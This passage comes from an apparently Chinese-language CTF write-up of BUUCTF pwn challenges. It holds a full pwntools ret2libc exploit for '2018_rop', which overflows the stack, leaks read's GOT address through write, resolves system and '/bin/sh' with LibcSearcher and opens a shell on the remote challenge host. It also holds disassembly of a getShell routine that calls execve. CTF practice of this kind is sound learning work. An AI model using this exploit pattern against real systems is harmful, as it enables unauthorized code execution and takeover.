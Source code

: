 leak read或者write函数地址都OK。

```python
from pwn import *
from LibcSearcher import LibcSearcher
context(log_level='DEBUG')
#io = process("./2018_rop")
io = remote('node3.buuoj.cn',26602)
elf = ELF('./2018_rop')
write_plt = elf.plt['write']
read_got = elf.got['read']
main = 0x80484C6
payload = 'a'*(0x88+4)+p32(write_plt)+p32(main)+p32(1)+p32(read_got)+p32(4)
io.sendline(payload)
read_add = u32(io.recv())
libc = LibcSearcher('read',read_add)
base = read_add - libc.dump('read')
sys_add = base+libc.dump('system')
bin_sh = base +libc.dump('str_bin_sh')
payload ='a'*(0x88+4) + p32(sys_add)+p32(0xdeadbeef)+p32(bin_sh)
io.sendline(payload)
io.interactive()
```



## 0x14.others_shellcode

就，，完全不知道这题想表达啥，可能就是想讲一下系统调用吧。

```asm
.text:00000550 getShell        proc near               ; CODE XREF: main+D↓p
.text:00000550 ; __unwind {
.text:00000550                 push    ebp
.text:00000551                 mov     ebp, esp
.text:00000553                 call    __x86_get_pc_thunk_ax
.text:00000558                 add     eax, (offset _GLOBAL_OFFSET_TABLE_ - $)
.text:0000055D                 xor     edx, edx        ; envp
.text:0000055F                 push    edx
.text:00000560                 push    68732F2Fh
.text:00000565                 push    6E69622Fh
.text:0000056A                 mov     ebx, esp        ; file
.text:0000056C                 push    edx
.text:0000056D                 push    ebx
.text:0000056E                 mov     ecx, esp        ; argv
.text:00000570                 mov     eax, 0FFFFFFFFh
.text:00000575                 sub     eax, 0FFFFFFF4h
.text:00000578                 int     80h             ; LINUX - sys_execve
.text:0000057A                 nop
.text:0000057B                 pop     ebp
.text:0000057C                 retn
.text:0000057C ; } // starts at 550
```
